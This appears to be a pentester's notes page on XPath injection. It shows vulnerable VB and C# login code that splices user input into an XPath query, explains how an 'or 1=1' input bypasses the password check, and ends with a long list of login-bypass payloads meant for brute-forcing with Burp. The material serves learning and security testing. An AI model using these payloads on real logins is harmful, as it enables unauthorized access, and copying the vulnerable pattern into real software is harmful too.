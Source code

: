 # XPath Injection
[https://owasp.org/www-community/attacks/XPATH\_Injection](https://owasp.org/www-community/attacks/XPATH_Injection) 

using `blah' or 1=1 or 'a'='a` or `blah" or 1=1 or "a"="a` as username will match ALL employees/users because of the “1=1” part.

Example Vulnerability
---------------------

We’ll use this XML snippet for the examples.

```text-plain
<?xml version="1.0" encoding="utf-8"?>
<Employees>
   <Employee ID="1">
      <FirstName>Arnold</FirstName>
      <LastName>Baker</LastName>
      <UserName>ABaker</UserName>
      <Password>SoSecret</Password>
      <Type>Admin</Type>
   </Employee>
   <Employee ID="2">
      <FirstName>Peter</FirstName>
      <LastName>Pan</LastName>
      <UserName>PPan</UserName>
      <Password>NotTelling</Password>
      <Type>User</Type>
   </Employee>
</Employees>
```

Suppose we have a user authentication system on a web page that used a data file of this sort to login users. Once a username and password have been supplied the software might use XPath to look up the user:

```text-plain
VB:
Dim FindUserXPath as String
FindUserXPath = "//Employee[UserName/text()='" & Request("Username") & "' And
        Password/text()='" & Request("Password") & "']"

C#:
String FindUserXPath;
FindUserXPath = "//Employee[UserName/text()='" + Request("Username") + "' And
        Password/text()='" + Request("Password") + "']";
```

With a normal username and password this XPath would work, but an attacker may send a bad username and password and get an XML node selected without knowing the username or password, like this:

```text-plain
Username: blah' or 1=1 or 'a'='a
Password: blah

FindUserXPath becomes //Employee[UserName/text()='blah' or 1=1 or
        'a'='a' And Password/text()='blah']

Logically this is equivalent to:
        //Employee[(UserName/text()='blah' or 1=1) or
        ('a'='a' And Password/text()='blah')]
```

In this case, only the first part of the XPath needs to be true. The password part becomes irrelevant, and the UserName part will match ALL employees because of the “1=1” part.

We can also use this list to bruteforce with burp and check the length of responses to find any leaked data.

```text-plain
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
'-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' #
admin'/*
```
